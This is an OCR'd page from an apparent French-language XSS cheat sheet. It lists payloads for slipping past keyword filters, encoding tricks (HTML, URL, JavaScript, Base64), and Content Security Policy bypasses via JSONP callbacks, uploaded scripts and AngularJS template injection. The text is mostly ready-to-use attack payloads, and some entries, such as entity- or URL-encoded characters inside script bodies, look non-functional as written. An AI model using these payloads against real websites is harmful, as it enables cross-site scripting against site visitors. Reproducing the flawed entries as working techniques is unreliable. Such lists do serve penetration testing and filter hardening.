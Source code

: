 ## 🚫 Bypass des Protections

### Filtres de mots-clés
```html
<!-- Bypass "script" -->
<ScRiPt>alert(1)</ScRiPt>
<scr<script>ipt>alert(1)</scr</script>ipt>
<script>aler<!--comment-->t(1)</script>

<!-- Bypass "alert" -->
<script>eval('al'+'ert(1)')</script>
<script>window['ale'+'rt'](1)</script>
<script>setTimeout('alert(1)',1)</script>
<script>Function('alert(1)')()</script>

<!-- Bypass "on" events -->
<img src=x oⁿerror=alert(1)>
<img src=x on­error=alert(1)>
```

### Encodage et obfuscation
```html
<!-- Encodage HTML -->
<script>alert(&#49;)</script>
<script>&#97;lert(1)</script>

<!-- Encodage URL -->
<script>alert(%31)</script>
%3Cscript%3Ealert(1)%3C/script%3E

<!-- Encodage JavaScript -->
<script>alert(String.fromCharCode(49))</script>
<script>eval('\141\154\145\162\164\050\061\051')</script>

<!-- Encodage Base64 -->
<script>eval(atob('YWxlcnQoMSk='))</script>
```

### Bypass CSP (Content Security Policy)
```html
<!-- Si 'unsafe-inline' autorisé -->
<script>alert(1)</script>

<!-- Avec JSONP callback -->
<script src="https://trusted-site.com/api?callback=alert"></script>

<!-- Upload d'un fichier JS sur le même domaine -->
<script src="/uploads/malicious.js"></script>

<!-- AngularJS (versions vulnérables) -->
{{constructor.constructor('alert(1)')()}}
<div ng-app ng-csp>{{constructor.constructor('alert(1)')()}}</div>
```
